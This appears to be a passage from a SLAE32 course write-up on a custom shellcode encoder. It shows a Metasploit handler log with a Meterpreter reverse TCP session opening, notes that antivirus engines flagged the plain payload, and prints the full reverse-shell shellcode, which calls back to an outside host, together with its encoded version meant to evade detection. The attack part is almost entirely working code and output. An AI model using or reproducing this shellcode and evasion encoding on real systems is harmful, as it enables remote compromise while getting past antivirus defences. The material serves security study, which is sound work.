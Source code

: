 ```
```

Testing the shellcode with the test program:

```
slemire@slae:~/slae32/assignment4$ gcc -z execstack -o msf msf.c
slemire@slae:~/slae32/assignment4$ file msf
msf: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b36888fc1e3651d37ea86204f44e8d4078f99bd7, not stripped
```

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.23.10.40:4444 
[*] Sending stage (861480 bytes) to 172.23.10.37
[*] Meterpreter session 1 opened (172.23.10.40:4444 -> 127.0.0.1) at 2018-11-22 08:08:36 -0500
```

When submitted on VirusTotal, the meterpreter payload was picked up by a few AV engines:

![](/assets/images/custom-encoder/msfpayload_plain.png)

Encoded version
---------------

Next, the same payload was encoded with the custom encoder:

```
slemire@slae:~/slae32/assignment4$ ./encoder.py msf_met_reversetcp.txt 
[+] Shellcode not 4 bytes aligned, adding 1 \x90 bytes of padding...
[+] Original shellcode (len: 124): \x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89\xe1\xcd\x80\x97\x5b\x68\xac\x17\x0a\x28\x68\x02\x00\x11\x5c\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\x85\xc0\x79\x19\x4e\x74\x3d\x68\xa2\x00\x00\x00\x58\x6a\x00\x6a\x05\x89\xe3\x31\xc9\xcd\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\x90
[+] Encoded shellcode (len: 159): \x44\x75\x1a\x4e\x2e\x96\xc5\x75\x61\x4d\xcc\xce\xa6\x9f\x8f\xb4\x55\x3d\xd2\x04\x28\x73\xbf\xa8\xe5\xca\xc0\xdd\x66\xa2\xb1\xb1\xb3\xd9\x99\xf0\x11\x79\xac\xe1\x23\x73\x7b\x45\x49\x40\xa1\xc9\x17\x11\xdf\x5a\x5f\x12\x9c\x4b\x05\x52\x32\x8b\xa9\x0b\xc1\x94\xdd\x0a\x52\x0a\x0a\x0a\xb7\xb2\xdd\xb7\xdd\x07\xce\x36\xe4\x8e\xf6\x36\x73\x76\x3b\x45\x62\xae\xf8\x3c\x24\x24\x9d\x23\x96\x9c\x15\x9c\x9c\x8c\xf7\xfb\x1c\x36\x14\x38\x88\x34\xdb\xf9\xcf\x4a\x4f\x02\xb2\x72\x29\x62\x0a\xb2\x88\x3e\x11\x69\x01\x3b\xf6\x38\x8b\x37\x8c\xf4\x4c\x09\x0c\x35\x8d\xd4\xca\x37\xa9\xa9\xa9\xa9\xa8\x65\x65\x65\x64\xde\x9b\x0b\x1b\x56\x9b\x90\x90\xaa\xaa
```